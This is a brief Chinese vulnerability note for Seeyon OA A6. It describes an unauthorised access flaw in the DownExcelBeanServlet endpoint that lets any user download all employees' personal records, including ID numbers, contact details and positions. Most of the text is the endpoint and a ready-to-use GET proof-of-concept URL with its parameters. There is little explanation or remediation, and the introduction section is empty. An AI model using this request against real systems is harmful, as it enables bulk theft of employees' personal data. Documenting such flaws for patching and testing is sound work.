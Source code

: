 ```yaml
---
title: 致远OA A6 敏感信息泄露（二）
id: zhfly3351
---
```


# 致远OA A6 敏感信息泄露（二）

## 一、漏洞简介

## 二、漏洞影响

致远OA A6

## 三、复现过程

##### 漏洞位置:

```
http://www.0-sec.org/yyoa/DownExcelBeanServlet 
```

##### 漏洞详情:

```
版本:A6只有系统管理才有的权限，但是任意用户都可以访问。可以下载所有员工的个人信息，包括身份证、联系方式、职位等敏感信息。 
```

##### 请求方式:

```
Get 
```

##### POC:

```
http://www.0-sec.org/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0 
```